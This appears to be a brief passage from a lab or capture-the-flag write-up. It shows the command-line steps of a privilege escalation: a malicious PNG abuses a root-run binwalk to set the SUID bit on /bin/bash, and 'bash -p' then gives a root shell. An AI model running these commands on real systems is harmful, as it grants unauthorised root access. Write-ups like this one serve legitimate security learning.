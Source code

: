 ```bash
python3 exploit.py command 683df150b84c2.png --command "chmod u+s /bin/bash"
```

```bash
ls
```

![](/img2/Pasted%20image%2020250602205316.png)

> The exploit generate malicious png file with RCE, so binwalk will be executed by root user.

```bash
bash -p
```


![](/img2/Pasted%20image%2020250602204640.png)